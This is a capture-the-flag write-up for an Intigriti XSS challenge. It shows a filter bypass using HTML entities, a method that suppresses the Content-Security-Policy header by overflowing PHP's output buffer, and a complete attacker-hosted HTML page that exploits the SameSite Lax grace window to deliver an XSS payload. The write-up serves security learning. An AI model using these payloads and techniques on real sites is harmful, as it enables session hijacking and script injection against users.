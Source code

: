 
```
$stringa='/[(\`\)]/';
$variabile=preg_replace($stringa,'NotAllowedCaracter',$YourPayload);
```
+ we are not allowed to use brackets nor backticks. However, we are able to bypass this by encoding these characters using HTML entities
+ payload: `<img src=x onerror=alert&lpar;1&rpar;>.`
+ next problem : csp
`content-security-policy: default-src 'none'; style-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; script-src 'nonce-5e05f7032c49f6f9667962037c1c8ca18115c037'; img-src 'self'`
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/262edd23-d537-431e-b890-99a250b258e5)
+ The policy looks mostly correct as we cannot inject arbitrary <script> tags since a valid nonce is required each time the page is requested. We are also unable to insert inline JavaScript events such as onload, onerror, etc. since there is a lack of unsafe-inline
+ Even though we can use base tag, the webpage is not importing any kinds of javascript files at all.
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/aec86427-37ca-4ba3-a17d-5134f17cb3f8)
+ token is set to a 64-character string, FirstText and Hashing are set based on our input. After testing around for abit, I found that:

token accepts any arbitrary string as long as it is exactly 64-characters long
PHPSESSID cookie has to be present and the value can be any string of at least 1-character long
+ The bug here is that the application’s response/output will not be sent first, but the header should. The body data request will be sent to the output buffer before the HTTP header since there’s no data returned before the header. This means the CSP inside the header will be ignored if we provide enough data more than the default PHP output_buffer size (4096 bytes), and sbox parameter is the perfect spot for the attacker to control to trigger the error.
+ Now we’ll try to populate the parameters with a junk buffer data so that the CSP header would be ignored.
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/52a2d66a-fd19-46b1-8cac-fe141dad140e)

+ The content-security-policy header is no longer returned in the response header for the second request. This means that our XSS payload would work!
+ The following should be hosted in a attacker controlled domain.
```
<html>
  <body>
	<script>
		function submit() {
			document.forms[0].submit();
		}
		
		function exploit() {
			var newTab = window.open("https://challenge-0322.intigriti.io/challenge/LoveSender.php", "_blank");
			setTimeout(submit, 5000);
		}
	</script>

	<button onclick='exploit()'>Click me</button>
    <form action="https://challenge-0322.intigriti.io/challenge/LoveReceiver.php" method="POST">
      <input type="hidden" name="token" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
      <input type="hidden" name="FirstText" value="&lt;img&#32;src&#61;&quot;happy&#46;gif&quot;&#32;onload&#61;alert&amp;lpar&#59;document&#46;domain&amp;rpar&#59;&gt;" />
      <input type="hidden" name="Hashing" value="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" />
    </form>
  </body>
</html>
```
+ This relies on user interaction as they would need to click on the “Click me” button first. By doing so, the JavaScript in this file would open a new tab to the https://challenge-0322.intigriti.io/challenge/LoveSender.php page (the landing page containing the form). This step is essential as visiting this page would grant the victim a valid PHPSESSID cookie, which is required by the LoveReceiver.php page (vulnerable page) before the XSS payload would even load.
+ Important: `Furthermore, the PHPSESSID cookie was set without the SameSite attribute. This means that modern browsers such as Chrome and FireFox would implement a 2-minute buffer window before setting this attribute as SameSite=Lax.`
+ Once a valid PHPSESSID cookie is obtained, we have 2 minutes before the SameSite=Lax setting kicks in, preventing cross-site POST requests from sending cookies. Now we have to quickly send our POST request to trigger the XSS payload. The HTML file above automatically sends this POST request after a 5-second delay (to ensure that the new cookie from the opened tab is processed). When the request is sent successfully, the XSS should trigger in the victim’s context.

